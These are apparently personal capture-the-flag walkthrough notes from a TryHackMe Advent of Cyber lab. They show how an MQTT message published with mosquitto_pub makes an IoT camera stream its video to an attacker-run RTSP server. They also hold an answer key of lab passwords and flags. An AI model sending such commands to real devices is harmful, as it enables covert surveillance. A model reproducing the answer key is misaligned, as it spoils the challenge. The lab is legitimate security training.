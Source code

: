 ```js
                        f = open("../src/url.txt", "w")
                        f.write(url_payload[URL_VALUE])
                        f.close()
                        
                    subprocess.call("../deploy/update.sh")

    client.subscribe(topic)
    client.on_message = on_message 
```
**Notes:**
- The format of a topic commonly takes the form of `<name>/<id>/<function>`
- The final format should look like `{"cmd":"10","url":""}`
## Setting up the listener server 
### Docker rtsp-simple-server
```sh
root@ip-10-10-222-227:~# docker run --rm -it --network=host aler9/rtsp-simple-server
2022/12/26 13:59:59 INF rtsp-simple-server v0.20.4
2022/12/26 13:59:59 INF [RTSP] listener opened on :8554 (TCP), :8000 (UDP/RTP), :8001 (UDP/RTCP)
2022/12/26 13:59:59 INF [RTMP] listener opened on :1935
2022/12/26 13:59:59 INF [HLS] listener opened on :8888
```
**Notes:**
- the message should be `{"cmd":"10","url":"rtsp://10.10.22.227:8554/sami"}`
### Publishing the message with mosuitto_pub
```sh
❯ mosquitto_pub -h 10.10.99.109 -t device/B26CWSPCWOBSBDC22V5K/cmd -m """{"cmd":"10","url":"rtsp://10.10.222.227:8554/sami"}"""
```
**Notes:**
- That should tell the camera to send its stream to `sami` path 
- In new terminal write `vlc rtsp://127.0.0.1:8554/sami`
![[Pasted image 20221226161620.png]]
# Day 23 `Defense in Depth` Mission ELFPossible: Abominable for a Day
Case 1: What is the password for Santa’s Vault?
	S3cr3tV@ultPW
Case 1: What is the Flag?  
	THM{EZ_fl@6!}
Case 2: What is Santa’s favourite thing?  
	MilkAndCookies
Case 2: What is the password for Santa’s Vault?  
	3XtrR@_S3cr3tV@ultPW
Case 2: What is the Flag?  
	THM{m0@r_5t3pS_n0w!}
Case 3: What is the Executive Assistant’s favourite thing?  
	BanoffeePie
Case 3: What is Santa’s previous password?  
	H0tCh0coL@t3_01
Case 3: What is Santa’s current password?  
	H0tCh0coL@t3_02
Case 3: What is the 1st part of the vault’s password?  
	N3w4nd1m
Case 3: What is the 2nd part of the vault’s password?  
	Pr0v3dV@ultPW
Case 3: What is the password for Santa’s Vault?  

Case 3: What is the Flag?  

What is Santa's Code?  

Mission ELFPossible: What is the Abominable for a Day Flag?